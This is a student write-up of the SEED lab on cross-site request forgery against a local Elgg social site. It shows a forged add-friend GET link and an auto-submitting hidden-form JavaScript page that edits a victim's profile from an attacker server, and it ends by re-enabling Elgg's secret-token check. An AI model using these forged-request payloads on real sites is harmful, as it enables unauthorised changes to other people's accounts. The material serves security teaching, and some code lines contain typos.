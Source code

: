 ### Task1: CSRF Attack using GET Request

**Part 1: Investigation**

Using the Firefox-tool **LiveHTTPHeaders**, Boby is able to get the URL for adding a friend.

```http
GET /action/friends/add?friend=39&__elgg_ts=1508757630&__elgg_token=f35aa5585b7a4e749ae1fde51d98b33a HTTP/1.1	
```

The *__elgg_ts* and *__elgg_token* are part of a counter-measure for a **CSRF** attack. To make sure this countermeasure is not applied, we have to check to validation code server-side, which is located at:

```sh
/var/www/CSRF/elgg/engine/lib/actions.php	
```

Here we can look at the *action_gatekeeper* -function

```php
function action_gatekeeper($action) {

	//SEED:Modified to enable CSRF.
	//Comment the below return true statement to enable countermeasure.
	return true;

	if ($action === 'login') {
 ....       
```

 This confirms that the CSRF-protection is turned off. This means we can safely ignore the *__elgg_ts* and *__elgg_token*, for our URL. Since we want *Alice*(guid=39) to add Bob(guid=40), we have to change the *friend=39 -> friend=40*

```http
GET /action/friends/add?friend=40
// complete URL
http:/csrflabelgg.com/action/friends/add?friend40
```



**Part2: The attack**

![](img/bobys-message.png)

*Picture*: Now we somehow have to get Alice to click on the link. Conveniently the *CSRF Lab site* has a built in messaging system for unfriended users to talk to each other

![](img/bobys-added.png)

*Picture*: When Alice's clickes the Malicious link, a message appears in the top right corner, telling her that "Boby is added as a friend".

### Task2: CSRF Attack using POST Request

**Part1: Investigation**
To learn about how the POST Request has to be set up, we have to do a normal one, and study it's format, using **LiveHTTPHeaders**

```http
http://www.csrflabelgg.com/action/profile/edit

POST /action/profile/edit HTTP/1.1
Host: www.csrflabelgg.com
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux i686; rv:23.0) Gecko/20100101 Firefox/23.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://www.csrflabelgg.com/profile/alice/edit
Cookie: Elgg=lo9p8k56rur2sd668ft13pfr23
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 499
__elgg_token=f89aa6bc5fafa4225de41785cdfadd10&__elgg_ts=1508768255
&name=Alice
&description=%3Cp%3Ehei%3C%2Fp%3E&accesslevel%5Bdescription%5D=2
&briefdescription=&accesslevel%5Bbriefdescription%5D=2
&location=&accesslevel%5Blocation%5D=2
&interests=&accesslevel%5Binterests%5D=2
&skills=&accesslevel%5Bskills%5D=2
&contactemail=&accesslevel%5Bcontactemail%5D=2
&phone=&accesslevel%5Bphone%5D=2
&mobile=&accesslevel%5Bmobile%5D=2
&website=&accesslevel%5Bwebsite%5D=2
&twitter=&accesslevel%5Btwitter%5D=2
&guid=39
...
```

*Note*: Every profile page field is represented in the *request body*, with a corresponding *accesslevel*-attribute. The exception is *name* and *guid*, which does not have an *accesslevel*-attribute.
*Note2*: All *accesslevel*=2

Let's state the value of the present URL encoded characters

| URL Encoded | UTF-8 |
| ----------- | :---- |
| %5B         | [     |
| %5D         | ]     |
| %3C         | <     |
| %3E         | >     |
| %2f         | /     |

Using the code sample from the lab document we insert the desired values

```js
<html>
<body>
<h1>This page forges an HTTP POST Request</h1>
<script type="text/javascript">
var badstring = "I support SEED project!";
var url = "http://www.csrflabelgg.com/action/profile/edit";

window.addEventListener('load', function() {

    // Part1 - Configure fields
    var fields = "" + 
    "<input type='hidden' name='name' value='Boby'>" + 
    "<input type='hidden' name='description' value='"+badstring+"'>" + 
    "<input type='hidden' name='accesslevel[description] value='2'>" + 
    "<input type='hidden' name='briefdescription' value=''>" + 
    "<input type='hidden' name='accesslevel[briefdescription]' value='2'>" + 
    "<input type='hidden' name='location' value=''>" + 
    "<input type='hidden' name='accesslevel[location]' value='2'>" + 
    "<input type='hidden' name='guid' value'39'>";

    // Part2 - Configure and launch <form> POST request
    var form = document.createElement("form");
    form.action = url;
    form.innerHTML = fields;
    form.target = "_self";
    form.method = "post";

    document.body.appendChild(form);
    form.submit();
});
</script>
</body>
</html>
```



**Part2: The attack**
An attack-server is provided on the following URL

```http
http://www.csrflabattacker.com
```

I can edit the */var/www/CSRF/Attacker/index.html* - file to inject my malicious code.

Now I only have to make sure **Boby** clicks the link.
![](img/catpic.png)

*Picture*: **Alice** masterfullly crafts an irresistable message, which **Boby** just has to click. 

![](img/edit-fail.png)

*Picture*: I am observing that the form POST happens over and over again in a loop. 
I do not understand why this is happening.

![](img/private-post.png)

*Picture*: The text is properly posted to the profile, but it is posted as private. Even though I am posting with accesslevel[description]=2. Private should have been accesslevel[description]=0.

**UPDATE**! Found the fix

```js
"<input type='hidden' name='guid' value'39'>" // Wrong Alice's guid
// to
"<input type='hidden' name='guid' value'40'>"; // Changed to Boby's guid
```

I had put Alice's guid in the form which was meant for Boby.
Simply changing it to value='40', made the attack working correctly.

**Part 3: Questions**

***Question 1***: How can *Alice* find *Boby's* user id? 
*Answer*: She can try to send him a message, and then monitor the Request sent

```http
http://www.csrflabelgg.com/messages/compose?send_to=40*
```

*Note*: *Alice's* has clicked "send message" on *Boby's* profile, and can easily spot that his *guid=40*.

***Question 2*** :  Can *Alice* find the *guid* of anyone that visits her, without knowing about them before hand.
*Answer*: One possible solution I can think of:

1. *Alice* does not need to know their *guid*, to make them add her as a friend, if we remember from *task1*

   ```http
   GET /action/friends/add?friend=39 //  39 is Alice's guid
   ```

2. Once she has them added, she can lookup her newest friends in the news feed.

3. Trying to send a message to this friend now, will reveal his *guid*.

### Task 3: Implementing Countermeasures for Elgg

**Part 1: Turn on countermeasure "secret-token validation"** 
Like mentioned earlier, the code for the validation can be found in 

```
/var/www/CSRF/elgg/engine/lib/actions.php
```

```php
function action_gatekeeper($action) {

	//SEED:Modified to enable CSRF.
	//Comment the below return true statement to enable countermeasure.
	//return true;

	if ($action === 'login') {
      ...
```

*Note*: Commenting out the **return true** to enable the countermeasure.

![](img/missing-fields.png)

*Picture*: After turning on the *secret-token* validation *Alice* no longer adds *Boby* as a friend when she clicks the malicious link. See the error message in top right corner.

This is because the GET URL is now required to contain the **elgg_ts** and the **elgg_token** like so

```http
GET /action/friends/add?friend=39&__elgg_ts=1508757630&__elgg_token=f35aa5585b7a4e749ae1fde51d98b33a HTTP/1.1	
```

We can only craft a GET URL like this, from our 3rd party site

````http
GET /action/friends/add?friend=40 HTTP/1.1
````

The **elgg_ts** and the **elgg_token** are baked into the web-page sent from the server to the victim, running in the victims token. They are part of the specific page internal private state. They can only be accessed via javascript running on the same page, in the same tab, in the victims browser. This can be achieved using an **XSS** attack, but not with an CSRF attack alone.